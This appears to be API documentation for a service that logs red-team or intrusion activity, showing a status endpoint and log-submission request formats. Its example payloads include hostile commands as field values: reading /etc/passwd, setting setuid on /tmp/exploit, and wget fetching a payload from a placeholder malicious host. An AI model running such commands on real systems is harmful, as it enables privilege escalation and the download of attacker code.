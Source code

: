 Verify that your API key is working correctly:

```
GET /api/ingest/status
```

**Example Response:**
```json
{
  "status": "ok",
  "apiKey": {
    "name": "Integration Key",
    "keyId": "a1b2c3d4",
    "permissions": ["logs:write"]
  },
  "timestamp": "2025-03-06T14:30:45.123Z"
}
```

### Log Submission

Submit one or more logs:

```
POST /api/ingest/logs
```

**Request Format (Single Log):**
```json
{
  "internal_ip": "192.168.1.100",
  "external_ip": "203.0.113.1",
  "hostname": "victim-host",
  "domain": "example.org",
  "username": "jsmith",
  "command": "cat /etc/passwd",
  "notes": "Privilege escalation attempt",
  "filename": "passwd",
  "status": "ON_DISK",
  "tags": ["reconnaissance", "linux", "sensitive"]
}
```

**Request Format (Multiple Logs):**
```json
[
  {
    "internal_ip": "192.168.1.100",
    "hostname": "host-1",
    "command": "chmod +s /tmp/exploit",
    "tags": ["privilege-escalation", "persistence"]
  },
  {
    "external_ip": "198.51.100.1",
    "hostname": "host-2",
    "domain": "example.org",
    "command": "wget http://malicious.com/payload",
    "tags": ["execution", "cobalt-strike"]
  }
]
```
